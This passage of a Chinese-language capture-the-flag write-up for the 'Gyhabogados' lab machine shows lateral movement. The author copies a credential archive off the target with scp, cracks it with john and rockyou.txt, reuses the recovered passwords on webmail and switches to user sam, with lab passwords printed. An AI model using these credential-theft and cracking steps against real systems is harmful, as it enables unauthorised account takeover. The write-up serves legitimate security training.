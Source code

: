 发现了数据库凭据 `bob:sup3rS3cretP4ssword_2024!`。尝试使用该密码切换用户或执行sudo，但均失败。

回到`bob`用户的主目录，发现一个加密的7z压缩文件 `credentials.7z`。

```bash
bob@TheHackersLabs-Gyhabogados:~$ ls
credentials.7z
```

使用`scp`将其传输回Kali进行破解。

```bash
bob@TheHackersLabs-Gyhabogados:~$ scp credentials.7z kali@192.168.205.128:/mnt/hgfs/gx/x/tmp
```

在Kali上，使用`7z2john`提取哈希，然后用`john`和`rockyou.txt`字典进行破解。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ 7z2john credentials.7z > hash
                                                                                                                                                                                  
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
...
barcelona        (credentials.7z)     
...
```

密码成功破解为 `barcelona`。解压文件。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ 7z x credentials.7z
...
Enter password (will not be echoed):
...
                                                                                                                                                                                  
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat credentials.txt
bob:a7gyqqp6bt2!uv@2u
```

得到一对新凭据 `bob:a7gyqqp6bt2!uv@2u`。结合之前发现的webmail系统（`http://mail.gyhabogados.thl/roundcube/`），使用此凭据登录`bob`的邮箱。

在邮箱中，发现了一封包含`sam`用户凭据的邮件。

> **邮件内容摘要:**
> Usuario: sam
> Contraseña: Welcome2024!

使用`su`命令和新获取的密码切换到`sam`用户。

```bash
bob@TheHackersLabs-Gyhabogados:~$ su sam
Password: Welcome2024!
sam@TheHackersLabs-Gyhabogados:/home/bob$ id
uid=1002(sam) gid=1006(abogados) groups=1006(abogados),100(users)
```
